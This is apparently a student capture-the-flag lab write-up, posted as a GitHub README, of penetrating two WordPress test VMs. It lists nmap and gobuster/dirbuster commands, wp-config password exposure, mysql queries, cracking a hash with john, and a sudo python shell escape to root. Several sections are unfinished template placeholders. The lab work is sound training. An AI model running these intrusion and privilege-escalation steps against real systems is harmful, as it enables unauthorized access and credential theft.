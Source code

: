 # WordPressRedTeam_BlueTeam

The network depicted below was used to test exploits and determine vulnerabilities within the WordPress servers.
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Topology%20Final%20Project.png)
Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

The nmap scan outlined below identifies the potential points of entry:

nmap $ nmap -sC -sV 192.168.1.110

Target 1:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nmap%20vm1.png)

nmap $ nmap -sC -sV 192.168.1.115

Target 2:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/NMAP%20final%20Project.png)

# Critical Vulnerabilities

The following vulnerabilities were identified on each target:

Target 1
- CVE-2019-12215 Full Path Disclosure (192.268.1.110/service.html)
- CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext (192.168.1.110/service.html)
- Wpscan exposed username which allowed brute force of password information.  User access to the wp-config.php file via nano.  This exposed the root user and password.

Target 2
- CVE-2019-12215 Full Path Disclosure (192.168.1.115/vendor/PATH)
- CVE-2015-8476 Php mailer (192.168.1.115/vendor/PHPMailerAutoload.php)

# Exploitation

The Red Team was able to penetrate both Target 1 and Target 2 and retrieve the following confidential data:

Target 1
- flag1.txt: 9bbcb33e11b80be759c4e844862482
  - Exploit (dirbuster)
   - dirbuster was used to uncover the file path that led to the flag exposure.
   - dirbuster command 
   
- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
  - Exploit Used (gobuster)
   - gobuster - exposed directory path (flag was discovered at 192.168.1.110/vendor/PATH)
   - gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.110        
     -![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/gobuster%20vm1.png)
     -![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/VM2%20Index_Vendor.png)
     -![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/dirbuster%20path%20to%20flag2.png)    
     
- flag3.txt: afc01ab56b50591e7dccf93122770cd2
  - Exploit Used
    -![TODO:] exposed root password and then uncovered hashes via mysql
    -![TODO:] mysql -u root -p wordpress -> show databases; -> select * from wp_posts;
- flag4.txt: 715dea6c055b9fe3337544932f2941ce
  - Exploit Used
   - john hash.txt to translate steven’s hash into password “pink84” -> logged in with steven’s credentials and then ran bin/bash command  to gain root
   - ssh steven@192.168.1.110 -> sudo /usr/bin/python -> import os -> os.system(‘ /bin/bash’) -> ls -> cat flag4.txt

Target 2
- flag1.txt: a2c1f66d2b8051bd3a5874b5b6e43e21
 - Exploit Used 
   -![TODO:] gobuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
   -![TODO:] gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115
- flag2.txt: 
 - Exploit Used
   -![TODO:] Identify the exploit used.
   -![TODO:] Include the command run.
- flag3.txt:  a0f568aa9de277887f377887f37730d71520d9b
 - Exploit Used
   -![TODO:] dirbuster - exposed directory path (flag was discovered at 192.168.1.115/wordpress/wp-content/uploads/2018/11/)
   -![TODO:] dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
- flag4.txt: 
 - Exploit Used
   -![TODO:] Identify the exploit used.
   -![TODO:] Include the command run.

